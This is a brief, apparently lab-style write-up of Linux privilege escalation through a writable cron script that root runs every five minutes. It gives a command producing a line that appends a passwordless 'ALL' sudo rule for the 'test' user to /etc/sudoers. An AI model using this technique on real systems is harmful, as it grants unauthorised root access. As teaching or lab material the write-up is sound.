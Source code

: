 # Writable script in /etc/crontab

```
cat /etc/crontab
```

Every 5 min, the cleanup.sh script execute by root.

And we have enough permission to write that file.

We are test user. So we can add root privileges to this account.

```
echo "echo \"test ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers"
```
